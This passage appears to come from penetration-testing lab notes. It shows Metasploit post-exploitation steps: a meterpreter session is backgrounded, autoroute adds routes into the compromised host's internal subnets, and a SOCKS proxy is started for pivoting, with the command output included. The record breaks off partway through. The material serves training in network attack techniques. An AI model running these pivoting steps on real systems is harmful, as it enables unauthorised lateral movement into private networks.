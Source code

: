 Press "ctrl+z" to background the  meterpreter session 

```
meterpreter > 
Background session 1? [y/N]  
```

Now we will add the routes from the target machine, the data 

```
msf6 exploit(multi/handler) > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set session 1
session => 1
msf6 post(multi/manage/autoroute) > run

[*] Running module against 10.129.204.126
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.254.0 from host's routing table.
[+] Route added to subnet 172.17.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.0.0         255.255.254.0      Session 1
   172.17.0.0         255.255.0.0        Session 1
[*] There are currently no IPv6 routes defined.

```

```
meterpreter > route

IPv4 network routes
===================

    Subnet      Netmask        Gateway     Metric  Interface
    ------      -------        -------     ------  ---------
    0.0.0.0     0.0.0.0        10.129.0.1  0       ens192
    10.129.0.0  255.255.0.0    0.0.0.0     0       ens192
    172.16.0.0  255.255.254.0  0.0.0.0     0       ens224
    172.17.0.0  255.255.0.0    0.0.0.0     0       docker0

```

Enable Sock Proxy
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
SRVPORT => 1080
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/socks_proxy) >
[*] Starting the SOCKS proxy server

msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

```